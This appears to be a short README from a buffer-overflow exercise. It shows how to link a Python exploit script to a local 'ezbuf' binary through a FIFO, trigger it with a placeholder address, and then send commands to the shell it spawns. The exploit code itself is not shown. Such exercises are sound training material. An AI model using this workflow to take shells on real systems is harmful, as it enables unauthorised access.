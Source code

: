 Make a FIFO to use as an intermediary:

    $ mkfifo fifo

Start up Python with stdout redirected to this FIFO.

    $ python3 -i ezbuf.py | tee - fifo

Start ezbuf with stdin set to read from the FIFO.

    $ ./ezbuf < fifo

Run the exploit using the address from ezbuf.

    >>> exploit("0xdeadbeef")

Send commands to the ezbuf process which is now a shell.

    $ echo "ls -lah" > fifo
